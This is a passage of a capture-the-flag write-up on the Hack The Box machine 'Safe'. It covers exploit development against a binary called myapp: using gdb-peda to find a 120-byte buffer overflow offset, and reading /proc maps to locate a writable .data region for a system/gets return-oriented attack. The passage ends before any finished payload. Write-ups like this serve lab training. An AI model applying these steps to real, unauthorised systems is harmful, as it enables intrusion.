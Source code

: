 We can cause a segfault with an input of 500. Now, let's analyse the stack contents and see what is the offset required. First, we need to configure `gdb` to follow the parent process, since the `main` function executes `uptime`, which is another binary that `gdb` would end up following.

```
gdb-peda$ set follow-fork-mode parent
gdb-peda$ file myapp
Reading symbols from myapp...
(No debugging symbols found in myapp)
gdb-peda$ r
Starting program: /home/kali/htb/safe/myapp 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching after vfork from child process 20023]
 05:00:02 up  1:09,  2 users,  load average: 0.01, 0.10, 0.14

What do you want me to echo back?
```

Afterwards, enter our large input and check the first 8 characters of the stack values:

<figure><img src="../../../.gitbook/assets/image (164) (6).png" alt=""><figcaption></figcaption></figure>

Now we can use `pattern query` to find the offset required:

```
gdb-peda$ pattern_offset jAA9AAOA
jAA9AAOA found at offset: 120
```

So we need 120 characters to overflow this thing. Now there are multiple ways to do this, either we go the Ret2Libc method by finding the `libc` library used via leaking the address of `puts` loaded in the binary, or we can write a string to the `.data` section of the binary.

I went with the latter as it's easier. We already have access to `system` and `gets`. We just need to find out where to write to. To find this, we can first start the process and then suspend it using CTRL + Z. Afterwards, check the PID number via `ps` and read `/proc/<ID>/maps` to see where we can write to:

```
$ ps                      
    PID TTY          TIME CMD
   2072 pts/5    00:00:01 zsh
  17999 pts/5    00:00:19 sublime_text
  18052 pts/5    00:00:00 plugin_host-3.3
  18055 pts/5    00:00:02 plugin_host-3.8
  32203 pts/5    00:00:00 myapp
  32218 pts/5    00:00:00 ps
$ cat /proc/32203/maps 
00400000-00401000 r--p 00000000 08:01 787675                             /home/kali/htb/safe/myapp
00401000-00402000 r-xp 00001000 08:01 787675                             /home/kali/htb/safe/myapp
00402000-00403000 r--p 00002000 08:01 787675                             /home/kali/htb/safe/myapp
00403000-00404000 r--p 00002000 08:01 787675                             /home/kali/htb/safe/myapp
00404000-00405000 rw-p 00003000 08:01 787675                             /home/kali/htb/safe/myapp
```
